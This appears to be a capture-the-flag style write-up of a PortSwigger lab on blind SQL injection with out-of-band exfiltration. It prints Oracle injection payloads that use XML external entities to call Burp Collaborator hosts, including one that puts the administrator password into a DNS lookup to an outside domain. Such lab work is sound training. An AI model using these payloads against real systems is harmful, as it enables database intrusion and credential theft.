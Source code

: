 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a8983182-49f9-42fc-a2cf-40038c80285f)


## Solution :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4599b5b1-1a2f-4712-ac85-f582960b110c)

The payloads for each domain to perform a DNS lookup to an external domain to retrieve details of any DNS interactions, including the exfiltrated data.

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```

Request captured -

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/32671bd0-1238-4bd3-9046-27f012d3b50b)

`Send this to Repeater`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9e3092cc-2ca4-4aa4-99a4-a3dc8a2cfdb3)

Since we are unsure of the database we are working with first we need to find which database is this.

So the first one will be  `Oracle`

For that the payload is 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

Then query will be changed by pasting the external  domain provided by collaborator would look like this

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://hsdsl3chnluavy0asy6vodz1ys4js9gy.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/413252f4-01c4-400b-86ea-2e9cdda2366c)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4e0d9c3c-8559-4cdd-90ec-7abf91a14a65)

By this we conformed that the databse is `Oracle`.

#### Now we need retrieve the passward from table called users, with columns called username and password.

For that the payload is

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

Then query will be changed by pasting the external  domain provided by collaborator and the query we will be inserting to find the username and password.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'  ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username = 'administrator')||'.ioazd8xqptdibxgwg4h9xbeq5hb9zzno.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
and press ctrl+U to encode it and send.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/18406095-c0d4-4289-94a0-427a8c1208ec)

Then go to collaborator and press poll.

![Screenshot 2024-03-11 010638](https://github.com/ananthan05/Portswigger_labs/assets/140697378/61388154-91f9-415d-ac07-fdb4a90eb550)

we can see the password as `qd9c2hadzroxq99ncym3`

now go to login page.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/202afac3-8886-49e4-b9ba-82771428c49f)

